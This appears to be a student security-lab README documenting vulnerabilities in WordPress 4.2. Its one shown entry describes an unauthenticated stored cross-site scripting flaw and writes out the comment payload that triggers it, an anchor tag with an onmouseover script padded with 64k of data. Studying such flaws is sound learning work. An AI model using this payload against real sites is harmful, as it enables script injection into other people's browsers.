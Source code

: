 # Week-7-Project
WordPress vs. Kali
> Objective: Find, analyze, recreate, and document **three vulnerabilities** affecting an old version of WordPress

1.) WordPress version 4.2 : Unauthenticated XSS (Cross Site Scripting)
- [ ] Summary:
   - Type of vulnerability: Cross Site Scripting
   - Fixed in version 4.2.1
   - Tested in version 4.2
- [ ] GIF Walkthrough:![](https://i.imgur.com/9udE06b.gif)
- [ ] Steps to recreate: Use the following to comment on a WordPress Post: 
<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px <insert 64k of random data
- [ ] Affected source code: N/A
